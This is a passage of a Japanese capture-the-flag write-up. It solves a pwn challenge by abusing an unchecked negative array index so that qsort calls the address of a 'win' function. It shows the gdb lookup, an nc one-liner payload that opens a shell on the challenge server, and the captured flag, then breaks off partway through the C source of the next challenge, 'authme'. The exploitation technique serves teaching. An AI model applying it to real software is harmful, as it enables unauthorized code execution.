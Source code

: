 `win` という関数を呼び出すことができれば、シェルが起動して勝ちという問題のようです。

`SortExperiment` という構造体は `long elm[5]` という数値 5 つを保持するメンバと、`SORTFUNC cmp[2]` というソート時に要素同士の比較のために呼び出される関数 2 つを保持するメンバを持っています。

5 つ数値を入力すると `elm` に格納され、最後に `cmp` の添字を入力するとその要素を比較関数として `qsort` に渡されて `elm` がソートされています。

最後に入力する `cmp` の添字については負数であるかどうかのチェックはありませんから、`-5` を入力すれば `elm[0]` に入っているアドレスが比較関数として呼び出されるはずです。やってみましょう。

```
$ gdb -q ./chall 
Reading symbols from ./chall...(no debugging symbols found)...done.
gdb-peda$ p/d &win
$1 = 4196231
gdb-peda$ q
$ (echo -e "4196231\n0\n0\n0\n0\n-5"; cat) | nc (省略) 9001
-*-*- Sort Experiment -*-*-
elm[0] = elm[1] = elm[2] = elm[3] = elm[4] = [0] Ascending / [1] Descending: ls
chall
flag-165fa1768a33599b04fbb4f7a05d0d26.txt
redir.sh
cat flag*
KosenCTF{f4k3_p01nt3r_l34ds_u_2_w1n}
```

フラグが得られました。

```
KosenCTF{f4k3_p01nt3r_l34ds_u_2_w1n}
```

## [pwn 300] authme (20 solves)
> nc (問題サーバへの接続情報) 9002
> 
> 添付ファイル: chall, main.c (chall のソースコード)
> 
> author: ptr-yudai

`main.c` は以下のような内容でした。

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int auth = 1;
char username[0x20];
char password[0x20];

void init(void) {
  FILE *fp;

  /* read secret username */
  if ((fp = fopen("./username", "r")) == NULL) {
    puts("[-] Please report this bug to the admin");
    exit(1);
  }
  fread(username, sizeof(char), 0x20, fp);
  fclose(fp);

  /* read secret password */
  if ((fp = fopen("./password", "r")) == NULL) {
    puts("[-] Please report this bug to the admin");
    exit(1);
  }
```